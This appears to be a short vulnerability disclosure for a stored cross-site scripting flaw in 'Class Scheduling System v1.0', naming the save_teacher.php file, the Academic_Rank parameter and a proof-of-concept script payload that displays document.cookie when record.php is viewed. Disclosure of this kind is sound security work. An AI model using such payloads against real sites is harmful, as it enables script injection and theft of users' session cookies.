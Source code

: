 # Class Scheduling System v1.0 has stored cross-site scripting

BUG_Author: CLJY

Website source code address: https://www.sourcecodester.com/php/5175/class-scheduling-system.html

Vulnerability File: /online_class_scheduling_system/admin/save_teacher.php

POST parameter "Academic_Rank" exists stored cross-site scripting vulnerability

Payload: Name=1&Academic_Rank=<script>alert(document.cookie)</script>&Designation=2&Department=College+of+Education&save=

![image](https://github.com/jiy2020/bugReport/blob/main/xss.png)

Payload will trigger when a user visits on http://localhost/online_class_scheduling_system/admin/record.php

![image](https://github.com/jiy2020/bugReport/blob/main/xss1.png)
